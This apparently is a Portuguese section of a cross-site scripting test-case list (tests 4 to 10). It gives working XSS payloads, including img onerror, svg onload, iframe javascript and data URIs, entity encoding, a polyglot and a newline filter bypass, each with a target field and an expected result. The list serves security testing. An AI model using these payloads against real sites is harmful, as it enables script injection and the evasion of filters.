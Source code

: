 ## 🔥 Casos de Teste Intermediários

### Teste 4: XSS via Atributo de Imagem
**Descrição:** Exploração através de tag img com onerror
**Payload:** `<img src=x onerror=alert('XSS')>`
**Local:** Campos que permitem HTML
**Resultado Esperado:** Execução quando imagem falha ao carregar

### Teste 5: XSS via SVG
**Descrição:** Usando SVG para executar scripts
**Payload:** `<svg onload=alert('XSS')>`
**Local:** Campos de comentário
**Resultado Esperado:** Execução imediata

### Teste 6: XSS via Iframe
**Descrição:** Exploração através de iframe
**Payload:** `<iframe src=javascript:alert('XSS')></iframe>`
**Local:** Campos que aceitam HTML
**Resultado Esperado:** Pop-up de alerta

### Teste 7: XSS com Codificação
**Descrição:** Usando codificação HTML para bypass
**Payload:** `&#60;script&#62;alert('XSS')&#60;/script&#62;`
**Local:** Campos de entrada
**Resultado Esperado:** Execução após decodificação

---

## 🚀 Casos de Teste Avançados

### Teste 8: XSS Poligloto
**Descrição:** Payload que funciona em múltiplos contextos
**Payload:** `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`
**Local:** Qualquer campo de entrada
**Resultado Esperado:** Execução em vários contextos

### Teste 9: XSS via Data URI
**Descrição:** Usando data URI para executar scripts
**Payload:** `<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>`
**Local:** Campos que aceitam URLs
**Resultado Esperado:** Execução de script

### Teste 10: XSS com Filter Evasion
**Descrição:** Bypass usando quebras de linha e tabs
**Payload:** `<script
>alert('XSS')</script>`
**Local:** Campos de texto multi-linha
**Resultado Esperado:** Bypass de filtros que não consideram quebras
